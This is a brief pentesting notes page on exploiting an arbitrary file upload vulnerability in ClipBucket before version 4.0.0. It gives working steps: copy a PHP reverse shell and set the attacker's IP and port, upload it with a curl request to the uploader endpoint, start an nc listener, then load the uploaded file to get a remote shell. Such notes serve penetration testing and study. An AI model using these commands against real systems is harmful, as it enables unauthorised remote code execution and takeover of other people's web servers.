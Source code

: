 ```yaml
---
title: ClipBucket Pentesting
description: ClipBucket is a freely downloadable PHP script that will let you start your own Video Sharing website (YouTube Clone).
tags:
    - Web
refs:
date: 2023-02-19
draft: false
---
```


## Arbitrary File Upload < v4.0.0

ClipBucket versions before 4.0.0 is vulnerable to file upload in ‘uploader’ actions. We can upload arbitrary files so we can execute reverse shell.

### 1. Prepare Payload

Create a PHP script to reverse shell in local machine.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php
```

Update $ip and $port with your local ip address and port.

### 2. Upload the Payload

Next upload the above PHP script to the target website.

```bash
curl -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" "https://example.com/actions/beats_uploader.php"
```

### 3. Reverse Shell

In local machine, start a listener.

```bash
nc -lvnp 4444
```

Then access to **`https://example.com/actions/CB_BEATS_UPLOAD_DIR/<uploaded_filename>.php`**.  
We should get a shell.